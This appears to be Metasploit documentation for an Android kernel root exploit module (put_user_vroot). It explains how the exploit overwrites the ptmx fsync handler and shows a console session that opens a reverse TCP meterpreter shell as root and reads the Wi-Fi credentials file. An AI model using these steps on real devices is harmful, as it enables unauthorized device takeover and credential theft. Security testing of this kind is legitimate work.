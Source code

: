 ## Introduction

This modules exploits a vulnerability in the linux kernel on an Android device, which allows an untrusted app to elevate to root privileges. On Android an application normally runs as an individual linux user, sandboxing it from the Android system and other applications. After running the exploit the resulting session has full privileges on the device, and can access the entire filesystem and the private data files of every other app, including system apps.

The exploit uses a read kernel memory primitive to first figure out the correct offsets for the device, before using the write primitive to overwrite the ptmx.fsync handler to a function that will elevate the current process to root. Finally /dev/ptmx is opened, and fsync called to trigger the exploit.

This exploit should work on any vulnerable device and is not device specific. In the example below a Samsung Galaxy S4 running Android version 4.3 was targeted.

## Usage

You'll first need to obtain a session on the target device. Once the module is loaded, one simply needs to set the ```SESSION``` option and configure the handler. The exploit can take a while to run on the device so it is configured with ```WfsDelay``` option to wait 120 seconds for a session. If you have not had a session after this time you can assume the device is not vulnerable.

An example session follows:


```
msf exploit(handler) > sessions 

Active sessions
===============

  Id  Type                        Information          Connection
  --  ----                        -----------          ----------
  1   meterpreter dalvik/android  u0_a132 @ localhost  192.168.1.52:4444 -> 192.168.1.54:33549 (192.168.1.54)


msf exploit(handler) > use exploit/android/local/put_user_vroot

msf exploit(put_user_vroot) > set LHOST 192.168.1.52
LHOST => 192.168.1.52

msf exploit(put_user_vroot) > set LPORT 5555
LPORT => 5555

msf exploit(put_user_vroot) > set SESSION 1
SESSION => 1

msf exploit(put_user_vroot) > run

[*] Started reverse TCP handler on 192.168.1.52:5555 
[*] Loading exploit library /data/data/com.metasploit.stage/files/bwycy
[*] Loaded library /data/data/com.metasploit.stage/files/bwycy, deleting
[*] Waiting 120 seconds for payload
[*] Sending stage (388156 bytes) to 192.168.1.54
[*] Meterpreter session 2 opened (192.168.1.52:5555 -> 192.168.1.54:59580) at 2016-12-24 00:19:12 +0800


meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0

meterpreter > cat /data/misc/wifi/wpa_supplicant.conf
ctrl_interface=wlan0
...

```
